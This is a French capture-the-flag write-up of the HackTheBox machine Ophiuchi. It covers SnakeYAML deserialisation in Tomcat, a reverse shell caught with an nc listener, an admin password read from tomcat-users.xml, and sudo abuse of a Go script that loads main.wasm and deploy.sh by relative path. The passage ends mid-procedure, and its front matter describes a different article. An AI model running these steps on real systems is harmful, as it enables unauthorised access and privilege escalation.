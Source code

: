 ```yaml
---
title: "HackTheBox - Ophiuchi"
description: pickle-fr.jpg
tags: ["Dans cet article je vous présente la machine que j'ai créée, une machine consacré au détéction de malware."]
---
```


Bonjour à tous, après un bon moment, je suis content de vous retrouver à nouveau sur mon site Web pour vous présenter la machine Ophiuchi de [HackTheBox](https://www.hackthebox.eu/).

Résumé :

- Une vulnérabilité de type désérialisation YAML (encore) est présente dans le service `Tomcat`.
- Le mot de passe de l'utilisateur est en clair dans le fichier de configuration de `Tomcat`, donc j'ai pu me connecter en tant que `admin`.
- Il est possible d'exécuter des commandes en tant que root grâce au fichier `sudoers`.

# Scan de port NMAP

    # Nmap 7.91 scan initiated Tue Mar 23 17:21:45 2021 as: nmap -p22,8080 -sC -sV -oA nmap/ophiuchi 10.10.10.227
    Nmap scan report for 10.10.10.227
    Host is up (0.040s latency).

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
    |   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
    |_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
    8080/tcp open  http    Apache Tomcat 9.0.38
    |_http-title: Parse YAML
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Tue Mar 23 17:21:54 2021 -- 1 IP address (1 host up) scanned in 9.24 seconds
    
 Il s'avère que le port `22/tcp` est ouvert qui tourne sur `OpenSSH`, nous avons également le port `8080/tcp` qui tourne sur `Tomcat 9.0.38`. J'ai regardé un peu les dates des versions des ports ouverts, et il s'avère que c'est assez récent, donc il est peu probable que il y a une vulnérabilité ou des vulnérabilités dans un de ces services.
 
 # Tomcat
 
 Lorsque je me connecte sur le site, il y a un champ de texte qui propre de mettre du `YAML`, lorsque je saisi du texte, il m'affiche quelque chose de type :
 `Due to security reason this feature has been temporarily on hold. We will soon fix the issue!`
 
 J'étais sûr avec certitude que le serveur en `back-end` traitait ce que je tapais dans le champ de texte, car lorsque je met un caractère spécial comme `'` il m'affiche une erreur lorsque je soumet les informations.

    org.yaml.snakeyaml.scanner.ScannerImpl.scanFlowScalarSpaces(ScannerImpl.java:1916)
    org.yaml.snakeyaml.scanner.ScannerImpl.scanFlowScalar(ScannerImpl.java:1831)
    org.yaml.snakeyaml.scanner.ScannerImpl.fetchFlowScalar(ScannerImpl.java:1027)
    org.yaml.snakeyaml.scanner.ScannerImpl.fetchSingle(ScannerImpl.java:1002)
    org.yaml.snakeyaml.scanner.ScannerImpl.fetchMoreTokens(ScannerImpl.java:390)
    org.yaml.snakeyaml.scanner.ScannerImpl.checkToken(ScannerImpl.java:227)
    org.yaml.snakeyaml.parser.ParserImpl$ParseImplicitDocumentStart.produce(ParserImpl.java:195)
    org.yaml.snakeyaml.parser.ParserImpl.peekEvent(ParserImpl.java:158)
    org.yaml.snakeyaml.parser.ParserImpl.checkEvent(ParserImpl.java:148)
    org.yaml.snakeyaml.composer.Composer.getSingleNode(Composer.java:118)
    org.yaml.snakeyaml.constructor.BaseConstructor.getSingleData(BaseConstructor.java:150)
    org.yaml.snakeyaml.Yaml.loadFromReader(Yaml.java:490)
    org.yaml.snakeyaml.Yaml.load(Yaml.java:416)
    Servlet.doPost(Servlet.java:15)
    javax.servlet.http.HttpServlet.service(HttpServlet.java:652)
    javax.servlet.http.HttpServlet.service(HttpServlet.java:733)
    org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:53)
    
 Je me suis renseigner sur le module `snakeyaml`, et en recharchant sur Google, il s'avère que ce module soit vulnérable à une attaque de désérialisation (donc possible d'exécuter des commandes), la fonction `load` de `YAML` est vulnérable à cela.
 
    Yaml yaml = new Yaml();
    Object obj = yaml.load("Toutes les choses que vous entrées passent par ici");
    
 Sur ce [site](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858), cela explique comment organiser cela et exécuter des commandes, je vais pas vous le montrer ici. C'est un jeu d'enfant.

# tomcat > admin

En suivant les instructions du site, nous avons pu avoir un shell en tant que `tomcat`.

    root@kali:~/htb/Ophiuchi# nc -lvnp 4242
    listening on [any] 4242 ...
    connect to [10.10.14.19] from (UNKNOWN) [10.10.10.227] 57092
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

Je vais également lancer `tty` pour avoir un shell en `bash` et plus propre.

    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    
    
La première chose que je fais tout le temps lorsque j'ai un shell en tant que `tomcat`, je regarde automatiquement le fichier de configuration qui comporte le mot de passe pour voir ce que je peux en faire avec.

    tomcat@ophiuchi:~$ cat ~/conf/tomcat-users.xml|grep password
    <user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
    [...SNIP...]

L'utilisateur est `admin` et le mot de passe est `whythereisalimit`, je vais voir si l'utilisateur `admin` existe dans le système :

    tomcat@ophiuchi:~/conf$ awk -F: '{print $1, $7}' /etc/passwd|grep bash
    root /bin/bash
    admin /bin/bash

En utilisant la commande `su` essayons si cela fonctionne :

    tomcat@ophiuchi:~/conf$ su - admin
    Password: whythereisalimit
    admin@ophiuchi:~$
    
# admin > root

En fesant `sudo -l`, on peut voir que j'ai des permissions d'exécuter une commande en tant que root :

    admin@ophiuchi:~$ sudo -l
    Matching Defaults entries for admin on ophiuchi:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User admin may run the following commands on ophiuchi:
        (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
        
 En regardant le script, essayons de comprendre le code `Go` :

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

La première chose que je remarque est que le fichier `main.wasm` n'a pas été mis comme chemin complet, donc on peut déjà jouer avec cela et c'est exactement pareil pour le fichier `deploy.sh`. Basiquement le fichier `main.wasm`, `deploy.sh` et `index.go` se situe tous dans le même sous-dossier.

Le script utilise la fonction `ReadBytes()` pour lire les données du fichier `main.wasm` et ensuite, il exporte la fonction `info()` du fichier `main.wasm` et fait une condition si le retour de la fonction (info()) retourne un 0 ou 1, dans ce cas ça va être logiquement un 0.

    admin@ophiuchi:~$ cd /opt/wasm-functions/
    admin@ophiuchi:/opt/wasm-functions$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    Not ready to deploy
    
Donc, comme la fonction retourne la valeur 0, il faut trouver un moyen de changer la valeur de 0 à 1 pour qu'il saute dans le `else` et pour que nous puissons créer notre fichier `deploy.sh` et faire exécuter cela par `root`.

Je vais essayer tout d'abord de décompiler `main.wasm`, si j'essaye de lire ce fichier, il me donnera dans la sortie standard des choses inintelligibles. Donc, pour ce cas, j'utiliserais le programme `rewasm` pour décompiler ça, je vais transporter le fichier `main.wasm` vers ma machine physique soit en utilisant `SSH` ou directement depuis avec `netcat`.

L'installation de cet outil est relativement simple, il suffit de l'installer depuis [ici](https://github.com/benediktwerner/rewasm).

## Decompiling main.wasm

En utilisant l'outil `rewasm` directement, on peut voir que la fonction `info()` est bien présente basiquement dans le fichier `main.wasm`.

    root@kali:~/htb/Ophiuchi/rewasm# /root/.cargo/bin/rewasm main.wasm
    Decompiling f0
    // Function 0
    fn info() -> i32 {
        return 0;
    }

C'est du `Rust`, il y a uniquement une fonction donc qui est `info()` qui est importé dans `index.go`. On peut contaster ce que nous voulons c'est qu'il retourne la valeur `1` et non la valeur `0`. J'ai essayé tellement de chose pour récompiler cela, mais c'était impossible à chaque fois que j'essayais de importer cela et lancer le programme, il me disait que il y avait une erreur de pointeur ou de mémoire, donc j'ai perdu enormément de temps à essayer de récompiler cela, mais il existe une solution beaucoup plus simple en utilisant simplement l'outil `wasm2wat` et `wat2wasm`.
